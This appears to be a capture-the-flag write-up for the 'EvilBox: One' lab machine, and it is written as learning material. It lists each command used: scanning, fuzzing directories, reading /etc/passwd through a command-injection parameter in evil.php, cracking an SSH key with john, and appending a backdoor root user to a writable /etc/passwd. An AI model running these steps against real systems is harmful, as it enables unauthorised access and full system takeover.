







# EvilBox: One Writeup

## Reconnaissance

First I scanned the network to find the target:

```bash
nmap -sn 192.168.1.0/24
```

Then I enumerated the web server:

```bash
dirb http://192.168.1.21
```



Discovered:

```
robots.txt
/secret
```

The username mentioned in robots.txt was a decoy.

---

## Directory Brute Force

The initial wordlist was too small, so I switched to a larger one and used ffuf:

```bash
ffuf -u http://192.168.1.21/secret/FUZZ \
-w /usr/share/seclists/Discovery/Web-Content/common.txt \
-e .php,.txt,.bak,.old,.zip
```



Found:

```
evil.php
```

---

## Remote File Read

The page was vulnerable to command execution:

```bash
curl "http://192.168.1.21/secret/evil.php?command=cat /etc/passwd"
```



From the output I identified a valid user:

```
mowree
```

---

## SSH Key Access

An RSA private key was found and cracked:

```bash
chmod 600 id_rsa
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



---

## Initial Access

Logged in via SSH:

```bash
ssh -i id_rsa mowree@192.168.1.21
```

Captured the user flag:

```bash
cat user.txt
```



---

## Privilege Escalation

To find writable files:

```bash
find / -xdev -type f -writable 2>/dev/null
```



Discovered that `/etc/passwd` was writable.

---

## Adding a Root User

Generated a password hash and added a new root user:

```bash
echo 'root2:$1$ZUT/rqgq$IDAanqc.AckVQKfNqyt96l:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Switched to the new user:

```bash
su root2
```

---

## Root Flag

```bash
cd /root
cat root.txt
```



---

## What I Learned

* small wordlists can miss critical files
* ffuf with extensions improves discovery
* command injection leads to full file read
* SSH keys can be cracked offline
* writable /etc/passwd = instant root
